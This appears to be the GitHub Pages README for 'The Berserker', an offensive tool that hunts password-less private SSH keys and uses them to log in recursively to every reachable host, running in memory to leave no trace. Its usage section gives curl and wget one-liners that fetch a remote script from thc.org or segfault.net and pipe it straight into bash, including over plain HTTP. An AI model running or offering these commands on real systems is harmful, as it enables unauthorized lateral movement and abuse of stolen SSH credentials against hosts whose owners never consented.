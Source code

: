 ```yaml
---
layout: default
---
```

{:refdef: style="text-align: center;"}
## **A recursive, non-intrusive and ephemeral tool to find password-less private ssh-keys and build a hirachical tree of reachable hosts**
{: refdef}

The Berserker looks for password-less ssh-keys (such as ```~/.ssh/id_rsa```) and then attempts to log in to as many hosts as possible. It repeats its action *recursively*. All this without writing or installing any data on any host. It's in-memory execution only.

Use either one of these commands to start The Berserker:
```shell
export BS="$(curl -fsSL ssh-it.thc.org/bs)" && bash -c "$BS"
```
```shell
export BS="$(wget -O- ssh-it.thc.org/bs)" && bash -c "$BS"
```

{:refdef: style="text-align: center;"}
![Berserker-Example](berserker-example.png)
{: refdef}

Read [how it works](how-it-works/) and [design choices](how-it-works/) we made.

### Tipe & Tricks

* Press ```CTRL-C``` to interrupted the Berseker at any time.
* No data is stored on the origin host or any target host.
* A typical run completes within a few seconds.

### When HTTPS is not available
```shell
# Without HTTPS 
export BS="$(wget -O- --no-hsts http://nossl.segfault.net/bs)" && \
bash -c "$BS"
```

### Alpha Testing
THIS IS ALPHA RELEASE. PLEASE TEST AND REPORT BACK ANY BUGS OR SUGGESTIONS.
Many Thanks to:
* ???

### Contact

Twitter: [https://twitter.com/hackerschoice](https://twitter.com/hackerschoice)  
Telegram: [https://t.me/thcorg](https://t.me/thcorg)  
Web: [https://www.thc.org](https://www.thc.org)  
Medium: [https://medium.com/@hackerschoice](https://medium.com/@hackerschoice)  
E-Mail: members@thc.org  


